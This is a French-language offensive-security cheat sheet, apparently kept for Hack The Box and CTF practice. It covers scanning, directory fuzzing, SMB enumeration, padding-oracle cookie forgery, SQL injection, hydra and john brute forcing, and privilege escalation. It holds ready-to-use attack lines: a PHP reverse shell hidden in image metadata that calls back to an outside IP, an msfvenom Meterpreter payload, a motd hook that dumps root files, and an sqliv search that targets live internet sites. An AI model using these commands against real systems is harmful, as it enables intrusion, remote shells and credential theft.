 # Methodes :

searchsploit -m URI // --outil de recherche de faille pour outils communs

trouver des fails :
uikto -h url
nmap -p 445 --script vuln 10.10.10.4 -Pn

BruteforceWEBAPP
hydra

Scanner les répertoires d'un site web :
dirb http://10.10.10.176 /usr/share/dirb/wordlists/common.txt

gobuster --url http://breizh-developpement.legtux.org/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

explorer les sous domaines : dig axfr @10.10.10.13 cronos.htb​​ after adding ​ cronos.htb​​ to the ​ /etc/hosts​​ file.


++ Pour trouver les fichiers.

gobuster --url http://docker.hackthebox.eu:30030/api/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x php,txt,html,htm

FUZZ test
wfuzz -c -z file,'shell.txt' http://10.10.10.181/FUZZ
wfuzz --hh=24 -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://docker.hackthebox.eu:30030/api/action.php?FUZZ=test

wfuzz --hh=24 -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://docker.hackthebox.eu:30030/api/action.php?reset=FUZZ"

Liste des processus :
htop

Afficher les connexions existante avec l'ordi.
netstat -tulp
(port ouvert en local)

Rajouter au fichier host :
nano /etc/hosts

python -c 'import pty; pty.spawn("/bin/sh")'

Reverse shell samples :

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Scripts d’énumération automatique :

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

Commandes d’interaction (pour CTF communs)

who

-> Affiche les tty connectés

wall "hello world !"
-> Envoie un message sur tous les tty connectés

Transfert de fichiers

socat TCP4-LISTEN:1234 TCP4:10.10.10.171:80 &
-> Lance un relai TCP vers une autre machine (pivoting)

Pratique lorsqu’on se connecte à HTB via un VPS

python -m SimpleHTTPServer <PORT>
-> Lance un serveur web dans le répertoire local

apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
->Lance un serveur ftp dans le répertoire courant

impacket/examples/smbserver.py -smb2support -username guest -password guest share /root/htb
-> Lance un serveur smb accessible en tant que guest/guest

Possibilité d’y accéder sous Windows avec un net use

Enumération :

nslookup -type=<MX / A / AAA / TXT / CNAME / PTR> <DOMAIN>
nslookup -type=MX test.fr

nmap ( 
 -A : détection du système et des versions
 -sP : simple ping scan
 -sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
 -sN/sF/sX: Scans TCP Null, FIN et Xmas
 -sU: Scan UDP 
 -T4 : Définit une temporisation[0-5]
  )
nmap -A -T4 -sV 10.10.10.157

nmap --script <SCRIPT> -p <PORT> <IPADDRESS>
nmap –script smb-vuln* -p 139,445 10.10.10.134

nikto -h <URL> -p <PORTS>
nikto -h 192.168.0.1 -p 80,443

gobuster --url <IP ADDRESS> dir --wordlist <WORDLIST> -x <EXTENSION>
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //<IPADDRESS>/ -U ""
Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180
Accès en RPC de façon anonyme (WINDOWS)

enum4linux -a 10.10.10.180
Enumération SMB, RPC & co (WINDOWS)

cat *.txt | gobuster --url 10.10.10.157 dir --wordlist -
-> pour piper plusieurs wordlists dans gobuster

dirb <url> <wordlist>
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
 -a "agent" -> spécifie un user-agent
 -R -> récursivité interactive
 -o output.txt -> redirige l'output
wfuzz --hh=<PARAM_SIZE>  -w <WORDLIST> <URL>.php?<PARAM_NAME>=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test

Exploitation & Elévation de privilèges :

python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

padbuster <URL> <COOKIE> <BLOCK_SIZE> -cookies "<PHPESSID_COOKIE> <OPTIONNAL_COOKIES>" --plaintext '<NEW_VALUE>'
padbuster http://docker.hackthebox.eu:59436/profile.php tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D 8 -cookies “PHPSESSID=74j9m7o8pbaq8pdoq3l56rvpk4; iknowmag1k=tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D” –plaintext ‘{“user”:”test”,”role”:”admin”}’

searchsploit -t <INTITLE>  <KEYWORDS> -w
searchsploit windows local smb

sudo -l
-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
-> Liste les répertoires accessibles en écriture

find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null 
-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
-> Trouver un fichier précis sur le système

binwalk socute.jpg 
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

msfvenom -p windows/meterpreter/reverse_tcp lhost=<LOCALIP> lport=<LOCALPORT> -f <FORMAT> > <OUTPUTFILE>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

 exiftool -Comment='<?php $sock = fsockopen("<IPADDRESS>",<PORT>);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>'   <IMAGE>
exiftool -Comment='<?php $sock = fsockopen(“10.10.10.1”,1234);$proc = proc_open(“/bin/sh -i”, array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png

Injection SQL :

sqlmap -u <URL> (--dbs / --tables -D <DATABASE> / --columns -D <DATABASE> -T <TABLENAME>)
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES

Bruteforce :

crunch <MIN> <MAX> <CONTENT>
crunch 4 15 “abcdefghijklmnopqrstuvwxyz”

hydra -l <USER> -P <WORDLIST> <IP ADDRESS> <METHOD> <URL>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l <LOGIN> -P <WORDLIST> <URL> <METHOD>"<PAGE>:<ARGUMENT>=^<VALUE>^:<INCORRECT STRING>" -w <THREADS> -s <PORT>
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form “/index.php:password=^PASS^:Invalid password” -w 10 -s 45692

john --incremental <HASHFILE>
Pour bruteforcer de façon incrémentale

john <HASHFILE> --wordlist=/usr/share/wordlists/rockyou.txt
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :

https://github.com/J3wker/anti-CSRF_Token-Bruteforce

Mémo Assembleur

Les Registres et leurs fonctions :


Les Instructions :



Commandes gdb :

disass main -> désassemblage de la fonction main

b *0x5655555d0 -> placer un breakpoint à l’adresse spécifiée

x/x $eip -> Affiche la valeur d’un registre ($ = valeur)

x/i $eip -> Affiche la prochaine instruction dans le registre eip

x/wx $esp -> Affiche la valeur sur la stack

r -> run

c -> continue

dumpargs -> dumper les arguments du programme

Pour faire un buffer overflow, il suffit de récupérer l’adresse de la sauvegarde du registre eip et l’adresse de début du buffer, on peut soustraire les deux et trouver le nombre de caractères que prend en compte notre buffer

Compiler sans protection :

gcc -m32 -fno-stack-protector -z execstack bof.c -o bof

-> Si la compil en 32bits ne fonctionne pas, installer libc en 32bits :

apt-get install libc6-dev-i386

Rapport de scan nmap :
nmap -A ip
nmap -sC -sV -sT -oN magic.txt Magic.htb
nmap --script smb-vuln* -p 135,139,445 10.10.10.169 //Vulnérabilité SMB

Enum4Linux:
enum4linux 10.10.10.172

Obtenir le passphrase :
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
chmod 700 id_rsa id_rsa.hash
john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash

Voir la liste des droits sudo de l'utilisateur actuel :
sudo -l
sudo -u root nano /chemin/
Executer une commande depuis un fichier CTRL+R and CTRL+X



Parcourir un fichier sans cd :
ls local/config (etc cat ..)

Afficher les fichiers cachés sur linux :
ls -lAR​ ​ /home/george

connect to sysadmin :
echo 'os.execute("bin/bash -i")' > hack.lua
sudo -u sysadmin /home/sysadmin/luvit hack.lua

Afficher du contenue de fichier lors de la connection :
cd /etc/update-motd.d/ #Mise à jour tout les 30 secondes
echo "cat /root/root.txt" >> 00-header

Voir l'historique:
cat .bash_history
history

Memo :
Penser à chercher les infos dans les sources webs. id et mdp.

ImageHidding afficher les trucs cachés :
steghide extract -sf HackerAccessGranted.jpg

Ecouter sur un port :
nc -lvp port //Listenning on any adress


LinEnum.sh
Service HTPPServer Python : python -m SimpleHTTPServer <PORT>
Trouver des sitesvulnérables via injection SQL :
sqliv -d inurl:item.php?id= -e bing -p 100

Pour Privilege esclation sur une session meterpreter:
background
Lister les sessions : sessions -l
Changer de session : session -i 1
Reconnaissance : use post/multi/recon/local_exploit_suggester
